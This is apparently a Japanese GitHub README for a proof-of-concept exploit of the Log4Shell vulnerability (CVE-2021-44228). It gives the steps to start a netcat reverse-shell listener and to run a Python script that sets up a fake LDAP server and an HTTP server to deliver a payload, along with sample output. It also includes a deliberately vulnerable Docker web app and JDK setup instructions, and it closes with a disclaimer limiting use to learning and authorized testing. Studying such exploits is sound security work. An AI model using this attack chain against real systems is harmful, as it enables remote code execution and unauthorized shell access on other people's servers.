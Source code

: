 CVE-2021-44228に対するPoC。  
最近、ElasticSearchや Minecraftなどで広く使われている Javaのロギングライブラリlog4jに新たな脆弱性が発見されました。

このリポジトリでは、脆弱性のあるアプリケーションの例と、その脆弱性を利用したPoCの例を作成しています。

概念実証(PoC)
----------------------

PoCとして、プロセスを自動化するPythonファイルを作成しました。


```bash
pip install -r requirements.txt
```
#### :


* netcatリスナーを起動して、リバースシェル接続を受け入れます。<br>
```py
nc -lvnp 9001
```
* エクスプロイトを起動します。 <br>
**Note:** この作業を行うには、解凍したjavaアーカイブの名前が `jdk1.8.0_20` であり、同じディレクトリにある必要があります。
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/NT25-CTF/log4j-shell-poc-ja

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send Exploit Code Port:1389

Listening on 0.0.0.0:1389
```

このスクリプトは、HTTPサーバーとLDAPサーバーをセットアップし、脆弱なパラメーターに貼り付けるために使用できるペイロードも作成します。 この後、すべてがうまくいけば、lportにシェルを取得する必要があります。 

<br>


脆弱性が含まれるアプリケーション
--------------------------

脆弱なWebアプリケーションにDockerfileを追加しました。 これは、以下の手順に従って使用できます。 
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
実行すると、localhost:8080でアクセスできます。

プロジェクトをさらに開発したい場合は、プロジェクトの開発に使用したIntellijIDEを使用できます。 また、作業を少し簡単にする構成ファイルがある`.idea`フォルダーも含まれています。 おそらく他のIDEも使用できます。 



jdkバージョンの取得
--------------------------------------

Exploitを作成した時点では、どのバージョンのJavaが動作し、どのバージョンが動作しないのかがはっきりしなかったため、Java 8の最も古いバージョンの1つである`java-8u20`で動作させることにしました。

```
> https://drive.google.com/file/d/1r8F3X2e2pCN5Iar62yG4M0H8HuBK_4by/view?usp=sharing
```

アーカイブをダウンロードして解凍すると、`java` といくつかの関連するバイナリが `jdk1.8.0_20/bin` の中にあります。  
**注意：** 動作させるためには、このリポジトリにjdkフォルダを同名で展開するようにしてください。

```
> tar -xf jdk-8u20-linux-x64.tar.gz

> ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

免責事項
----------
このリポジトリは、CVE-2021-44228へのワンクリックエクスプロイトを目的としたものではありません。 このプロジェクトの目的は、人々がこの素晴らしい脆弱性について学び、おそらく自分のアプリケーションをテストするのを助けることです（ただし、この目的のためのより良いアプリケーションがあります。 [https://log4shell.tools/](https://log4shell.tools/))

私たちのチームは、悪意のある活動に対するこのエクスプロイトの使用を支援または推奨しません。したがって、支援を求める場合は、ターゲットサービスを所有しているか、ペネトレーションテストを行う権限があることを証明するものを提供する必要があります。
